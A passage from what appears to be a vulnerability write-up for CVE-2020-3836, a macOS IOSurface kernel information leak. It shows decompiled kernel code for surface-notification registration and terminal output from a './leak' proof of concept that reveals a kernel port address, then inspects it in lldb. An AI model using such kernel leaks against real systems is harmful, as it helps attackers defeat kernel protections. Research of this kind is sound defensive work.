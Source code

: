 ```cpp
  else
  {
LABEL_5:
    v7 = IOMalloc(0x60u);
    if ( v7 )
    {
      v8 = v7;
      v9 = (_QWORD *)(a1 + 336);
      memset(v7, 0, 0x60u);
      IOUserClient::setAsyncReference64(v8 + 2, *a2, *a3, a3[1]);
      v8[11] = a4;
      v8[10] = a3[2];
      v10 = *(_QWORD *)(a1 + 336);
      if ( v10 )
      {
        if ( *(_QWORD **)(v10 + 8) != v9 )
          IOSurfaceRoot::setSurfaceNotify((const void *)(a1 + 336));// panic
        *v8 = v10;
        v11 = (_QWORD *)(v10 + 8);
      }
      else
      {
        *v8 = 0;
        v11 = (_QWORD *)(a1 + 344);
      }
      *v11 = v8;
      *v9 = v8;
      v8[1] = v9;
      v12 = 0;
    }
    else
    {
      v12 = -536870211;
    }
  }
  IORecursiveLockUnlock(*(IORecursiveLock **)(a1 + 256));
  return v12;
}
```

## Result

```nasm
seo@seos-iMac-Pro CVE-2020-3836 % ./leak
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x2
[*] port: 0x2703, (os/kern) successful
[*] leaked_port_addr: 0xffffff80173028b0
...

(lldb) p/x *(ipc_port_t)0xffffff80173028b0
(ipc_port) $36 = {
  ip_object = {
    io_bits = 0x80000000
    io_references = 0x00000002
    io_lock_data = (interlock = 0x0000000000000000)
  }
  ip_messages = {
    data = {
      port = {
        waitq = {
          waitq_type = 0x00000001
          waitq_fifo = 0x00000001
```